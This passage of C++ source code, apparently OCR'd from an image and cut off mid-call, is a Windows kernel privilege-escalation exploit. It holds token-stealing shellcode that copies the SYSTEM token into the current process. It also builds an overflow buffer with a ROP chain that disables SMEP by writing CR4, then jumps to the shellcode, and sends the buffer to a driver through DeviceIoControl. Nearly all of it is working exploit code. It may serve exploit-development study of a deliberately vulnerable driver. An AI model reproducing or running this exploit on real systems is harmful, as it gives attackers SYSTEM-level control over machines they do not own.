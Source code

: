 ```cpp
        "\x48\x83\xFA\x04"                          // cmp rdx, 4               ; Process with ID 4 is System process
        "\x74\x05"                                  // jz found_system          ; Found SYSTEM token
        "\x48\x8B\x09"                              // mov rcx, [rcx]           ; Follow _LIST_ENTRY Flink pointer
        "\xEB\xF1"                                  // jmp find_system_proc     ; Loop
        //found_system:
        "\x48\x8B\x41\x68"                          // mov rax, [rcx + 68h]     ; Offset from ActiveProcessLinks to Token
        "\x24\xF0"                                  // and al, 0f0h             ; Clear low 4 bits of _EX_FAST_REF structure
        "\x49\x89\x80\x58\x03\x00\x00"              // mov [r8 + 358h], rax     ; Copy SYSTEM token to current process's token
        "\x48\x83\xC4\x40"                          // add rsp, 040h
        "\x48\x31\xF6"                              // xor rsi, rsi             ; Zeroing out rsi register to avoid Crash
        "\x48\x31\xC0"                              // xor rax, rax             ; NTSTATUS Status = STATUS_SUCCESS
        "\xc3";

    LPVOID shellcode_addr = VirtualAlloc(NULL,
        sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);

    memcpy(shellcode_addr, shellcode, sizeof(shellcode));

    cout << "[>] Shellcode allocated in userland at: 0x" << (INT64)shellcode_addr
        << endl;

    BYTE input_buff[2088] = { 0 };

    INT64 pop_rcx_offset = kernel_base + 0x146580; // gadget 1
    cout << "[>] POP RCX gadget located at: 0x" << pop_rcx_offset << endl;
    INT64 rcx_value = 0x70678; // value we want placed in cr4
    INT64 mov_cr4_offset = kernel_base + 0x3D6431; // gadget 2
    cout << "[>] MOV CR4, RCX gadget located at: 0x" << mov_cr4_offset << endl;


    memset(input_buff, '\x41', 2056);
    memcpy(input_buff + 2056, (PINT64)&pop_rcx_offset, 8); // pop rcx
    memcpy(input_buff + 2064, (PINT64)&rcx_value, 8); // disable SMEP value
    memcpy(input_buff + 2072, (PINT64)&mov_cr4_offset, 8); // mov cr4, rcx
    memcpy(input_buff + 2080, (PINT64)&shellcode_addr, 8); // shellcode

    // keep this here for testing so you can see what normal buffers do to subsequent routines
    // to learn from for execution restoration
    /*
    BYTE input_buff[2048] = { 0 };
    memset(input_buff, '\x41', 2048);
    */

    cout << "[>] Input buff located at: 0x" << (INT64)&input_buff << endl;

    DWORD bytes_ret = 0x0;

    cout << "[>] Sending payload..." << endl;

    int result = DeviceIoControl(hFile,
        IOCTL,
        input_buff,
        sizeof(input_buff),
```